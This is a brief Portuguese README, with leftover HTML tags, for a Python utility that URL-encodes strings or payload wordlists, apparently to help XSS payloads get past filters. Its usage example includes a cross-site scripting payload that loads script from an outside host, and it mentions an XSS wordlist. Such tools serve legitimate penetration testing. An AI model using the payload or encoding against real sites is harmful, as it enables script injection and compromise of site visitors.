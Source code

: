 # Converte_url

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 url_encode.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script> -n 3</h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 url_encode.py -w xss_good.txt -n 3 </h3>

</br>

<img src="./url.png">
